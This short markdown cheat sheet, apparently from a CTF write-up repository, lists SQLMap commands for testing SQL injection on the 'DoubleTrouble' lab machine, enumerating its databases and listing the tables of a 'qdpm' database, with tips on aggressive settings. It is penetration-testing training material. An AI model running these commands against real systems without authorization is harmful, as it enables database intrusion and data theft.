 # 🐍 SQLMap Commands

This file contains useful **SQLMap commands** for testing SQL injection vulnerabilities on the **DoubleTrouble CTF machine**.

---

## Basic Usage
Test a vulnerable parameter for SQL Injection:
```bash
sqlmap -u "http://10.0.2.4/index.php?id=1" --batch
```
### Enumerate Databases
```bash
sqlmap -u "http://10.0.2.4/index.php?id=1" --dbs
```
___
### List Tables in a Database
Example for database `qdpm`:
```bash
sqlmap -u "http://10.0.2.4/index.php?id=1" -D qdpm --tables
```
___
### Notes
- Always run with `--batch` to skip interactive prompts.
- Use `--risk` and `--level` for more aggressive testing if needed.
- SQLMap can automatically detect DBMS and adjust payloads.